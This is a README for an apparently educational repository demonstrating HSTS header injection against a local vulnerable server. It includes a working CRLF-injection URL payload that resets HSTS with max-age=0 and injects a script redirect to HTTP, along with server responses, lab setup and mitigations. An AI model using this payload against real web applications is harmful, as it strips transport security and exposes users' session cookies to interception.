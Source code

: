 # HSTS Header Injection

## What is this?

The HTTP Strict Transport Security (HSTS) header is meant to secure browsing, by forcing the browser to use HTTPS instead of HTTP.
Browsers cache the *freshest* HSTS policy information on behalf of an HSTS host [see RFC6797 Section 5.3](https://www.rfc-editor.org/rfc/rfc6797#section-5.3).
The header `Strict-Transport-Security: max-age=0` deletes the HSTS policy for the given host.
This can be exploited when a web application has an HTTP header injection vulnerability, by deleting the HSTS policy and redirecting the victim to HTTP.
A cookie without the secure-flag or other sensitive data, like the authorization header, will be transmitted without encryption.

This repository demonstrates the attack by supplying a vulnerable web server.

### Payload

In order to exploit the vulnerability, a victim must click a link of the following form:

```
https://hsts.local/vuln?param=value%0d%0aStrict-Transport-Security%3a+max-age%3d0%0d%0a%0d%0a<script>location=%22http://hsts.local/%3fcb%3d3401833577%22</script>
```

This decodes to:

```
value
Strict-Transport-Security: max-age=0

<script>location="http://hsts.local/?cb=3401833577"</script>
```

This value, including newline characters, is returned in the vulnerable header `X-Vulnerable-Header` of the server. The entire response looks like this:

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Sun, 19 Mar 2023 21:43:48 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 73
X-Vulnerable-Header: param=value
Strict-Transport-Security: max-age=0

<script>location="http://hsts.local/?cb=3423821759"</script>
Strict-Transport-Security: max-age=31536000
Connection: close

<html><head><title>Title</title></head><body>Just some HTML</body></html>
```

The cache buster is used to prevent browsers from returning cached responses.

### Mitigations

* Prevent HTTP header injection by filtering new line characters.
* Send the HSTS header prior to any other headers.
* Set the cookie with the `Secure` flag to prevent transmission via HTTP.

## Install

Clone the repository and install the requirements.

```
git clone git@github.com:KwnyPwny/hsts-header-injection.git
cd hsts-header-injection
python3 -m venv env
source env/bin/activate
pip install -r requirements.txt
```

## Setup

Modern browsers only obey HSTS headers when the web servers deliver valid certificates.
Self-signed certificates do not seem to be enough in some cases.
Thus we need to create a certificate authority (CA) first, create a certificate signing request for hsts.local, sign the certificate as CA and trust the CA in our browser.

### Certificates

Create a directory for certificates:
```
mkdir certs && cd certs
```

Create a CA:
```
openssl genrsa -aes256 -out my-ca.key 4096
openssl req -x509 -new -nodes -key my-ca.key -sha256 -days 1826 -out my-ca.crt
```

Create a certificate signing request:
```
openssl req -new -nodes -out hsts.local.csr -newkey rsa:4096 -keyout hsts.local.key

Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:hsts.local
Email Address []:
```

Sign the certificate:
```
openssl x509 -req -in hsts.local.csr -CA my-ca.crt -CAkey my-ca.key -CAcreateserial -out hsts.local.crt -days 365 -sha256
```

### /etc/hosts

Add `hsts.local` to your `/etc/hosts`:
```
127.0.0.1	localhost hsts.local
```

### Import CA into browser

Search the browser's settings for `cert` or follow these instructions:

* Firefox (v111): Settings -> Privacy & Security -> Certificates -> View Certificates... -> Authorities -> Import... -> hsts-header-injection/certs/my-ca.crt

* Chromium (v111): Settings -> Privacy & Security -> Security -> Manage certificates -> Authorities -> Import -> hsts-header-injection/certs/my-ca.crt

## Use

1. Start both web servers:
   ```
   sudo env "PATH=$PATH" python http-server.py
   sudo env "PATH=$PATH" python https-server.py
   ```

2. Empty browser history to reset HSTS entries.

3. Call `http://hsts.local/`.
   ![Screenshot of the web page from this project](/images/00.png)

   Recognize that you receive a 301 to `https://hsts.local/` as no HSTS header is set.
   Also recognized that a secret cookie is returned in the server's response.
   ![Screenshot of the browser developer tools that show a 301 redirect](/images/01.png)

4. Click `http://hsts.local?cb=...` with the cache buster value to check whether HSTS is working.
   Chromium reports an internal redirect (307). Firefox only shows the HTTPS request.
   ![Screenshot of the browser developer tools that show a 307 redirect](/images/02.png)

5. Click or copy&paste the *evil link*. It will inject an HSTS header with `max-age=0` to delete the HSTS entry. Afterwards it will redirect the user to `http://hsts.local?cb=...`
   The final response of the webserver will look like this:
   ```http hl_lines="6 7 8 9"
   HTTP/1.1 200 OK
   Server: Werkzeug/2.2.3 Python/3.8.10
   Date: Sun, 19 Mar 2023 21:43:48 GMT
   Content-Type: text/html; charset=utf-8
   Content-Length: 73
   X-Vulnerable-Header: param=value
   Strict-Transport-Security: max-age=0

   <script>location="http://hsts.local/?cb=3401833577"</script>
   Strict-Transport-Security: max-age=31536000
   Connection: close

   <html><head><title>Title</title></head><body>Just some HTML</body></html>
   ```

   Note that an HTTP request is sent via HTTP that contains the secret cookie.
   ![Screenshot of the browser developer tools that show a 301 redirect again](/images/03.png)
   ![Screenshot of the browser developer tools that shows the secret cookie in the HTTP request](/images/04.png)

6. When sniffing the traffic with Wireshark, you can see that the cookie is indeed transmitted in plain text.
   ![Screenshot of Wireshark showing the secret cookie in plain text](/images/05.png)

----

*Copyright 2023, Konstantin.*